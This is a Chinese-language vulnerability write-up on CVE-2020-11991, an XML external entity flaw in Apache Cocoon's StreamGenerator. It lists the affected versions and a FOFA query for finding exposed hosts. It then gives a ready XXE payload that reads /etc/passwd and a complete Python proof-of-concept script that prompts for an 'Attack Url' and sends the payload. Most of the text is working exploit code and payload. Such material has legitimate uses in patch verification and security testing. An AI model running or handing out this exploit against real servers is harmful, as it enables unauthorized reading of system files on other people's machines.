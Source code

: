 # 

# Apache Cocoon XML注入 CVE-2020-11991

## 漏洞描述

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

## 漏洞影响

```
Apache Cocoon <= 2.1.12
```

## 网络测绘

```
app="Apache-Cocoon"
```

## 漏洞复现

向**/v2/api/product/manger/getInfo**  POST如下内容

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import base64
import sys


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Cocoon <= 2.1.12                                  \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-11991                                    \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/v2/api/product/manger/getInfo"
    data = """
        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
        <userInfo>
        <firstName>John</firstName> 
        <lastName>&ent;</lastName>
        </userInfo>
    """
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-type": "text/xml"
    }

    response = requests.request("POST", url=vuln_url, data=data, headers=headers, timeout=20)
    if "/bin/bash" in response.text:
        print("\033[32m[o] 含有CVE-2020-11991漏洞，响应为{}\033[0m".format(response.text))
    else:
        print("\033[31m[x] 漏洞利用失败 \033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```
